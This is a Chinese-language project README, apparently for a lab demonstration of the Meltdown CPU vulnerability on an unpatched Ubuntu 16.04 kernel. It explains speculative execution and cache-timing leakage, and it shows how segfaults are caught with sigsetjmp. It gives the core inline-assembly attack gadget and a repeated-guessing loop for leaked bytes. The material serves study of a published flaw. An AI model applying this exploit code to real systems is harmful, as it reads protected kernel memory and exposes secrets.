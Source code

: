 # Meltdown 
## 综述
+ ./melt.sh命令可以查看演示效果
+ 运行这个演示需要临时提权
+ 操作系统的kaslr机制每次启动会更改内核的位置，所以必须sudo获得权限找到越权访问的地址，但主体的核心代码不需要root权限
+ 我的实验环境为：操作系统Ubuntu 16.04，内核Linux4.10.0-28 generic
## 关于补丁
我的内核版本较老，没有安装补丁，可以直接进行实验。
## 攻击原理
CPU有着分支预测功能，在我们读取一个非法地址（没有读取权限）时，会产生段错误，但读取指令后的几条指令也会被执行（当错误发生后，执行的操作会被撤销）。然而，预测执行时读入Cache的页并没有被取出，仍然留在Cache中，这就导致之后读取这一页时会加速。我们将从非法地址读到的值作为读入Cache的页的页码，之后只要读取各页，最快的那一页的页码就是我们从非法地址读到的值。这就是说，我们从内存中窃取了数据————这就是meltdown的攻击原理。
## 错误的处理
在使用meltdown漏洞时，我们将主动制造段错误，并利用CPU的预测执行将对应地址的内容读入cache，这时候就存在一个问题：一般而言，在我们遭遇段错误时，C程序就会被强制结束，我们将无法利用预先读入cache的内容。这个时候，我们需要类似于java的try-catch机制的错误处理程序。  
来自于setjmp.h库的函数sigsetjmp()及siglongjmp()可以完成这个任务，利用宏定义可以产生类似的效果：
```C
#define try if(!sigsetjmp(Jump_Buffer,1))  
#define catch else  
#define throw siglongjmp(Jump_Buffer,1)  
```
但是段错误不同于一般的错误，可以在代码中利用分支抛出错误。查阅资料，可以知道发生段错误后系统会抛出SIGSEGV信号，之后调用默认的信号处理函数，产生core文件，然后关闭程序。因此，如果我们可以捕获这个信号，就可以调用自行实现的信号处理函数了。函数signal()可以完成注册信号处理函数的任务。
## 核心代码
攻击的核心代码是一段内联汇编。
```C
asm volatile (//volatile让编译器不会优化这段代码
    /*作用是进行一定的延时保证变量进入cache*/
        ".rept 100\n\t"
        "add $0x100, %%rax\n\t"
        ".endr\n\t"
    /*
    试探读取字符，当然在movzx这里本应该失败，但是预读取会使这三段代码都会执行。
    第一行读取被攻击的地址的内容;
    第二行是将读取值乘上pagesize，即左移12位;
    第三行尝试读取test数组的一页，页码是最初的读取值，CPU会将这一页放入cache。
    */
        "movzx (%[addr]), %%rax\n\t"
        "shl $12, %%rax\n\t"
        "mov (%[target], %%rax, 1), %%rbx\n"
        :
        : [target] "r" (test),
          [addr] "r" (addr)
        : "rax","rbx"
    );	
```
## 动态次数猜测方法
在使用meltdown漏洞的实践中，可以发现，如果对一个地址只进行一次攻击，得到的结果正确率很低。如果对一个地址进行多次攻击，将被猜测最多的值作为最终结果，可以显著提高正确率（经实践，一般1000次左右效果较好）。然而，这显然会降低窃取内存数据的效率。因此，采用动态次数猜测方法，可以在保证正确率的前提下，大幅提高效率。
```C
while (p[max1]<=2*p[max2]+20){
    /*采用动态次数猜测方法。只有当最高页分数大于次高页分数的两倍加20分时，才确信最高页的页码是我们想要窃取的值。*/
    readbyte(fd,addr);
    tmp=loadpage();
    p[tmp]++;//被猜测的页的分数加1
    if (tmp!=max1){
       	if (p[tmp]>p[max1]) {
       		max2=max1;
       		max1=tmp;	
      	}
       	else if (p[tmp]>p[max2]) {
       		max2=tmp;
      	}
    }//修改最高和次高页的页码			
}
```
由于每次攻击的结果是比较随机的，数据有好有坏。如果采用固定次数的方法，次数就应当满足数据最差时（这种情况不普遍）的要求，对于数据较好时，就是一种浪费。而采取动态次数的方法，数据好的时候次数少，差的时候次数多，减少了浪费，提高了效率。
## 实验结果
![图片](./1.png?raw=true)  
![图片](./2.png?raw=true)  
![图片](./3.png?raw=true)  
![图片](./4.png?raw=true)  
![图片](./5.png?raw=true)  
## 参考资料
+ https://blog.csdn.net/qq_25827741/article/details/78994970
+ https://blog.csdn.net/tian_dao_chou_qin/article/details/6386621
+ https://github.com/paboldin/meltdown-exploit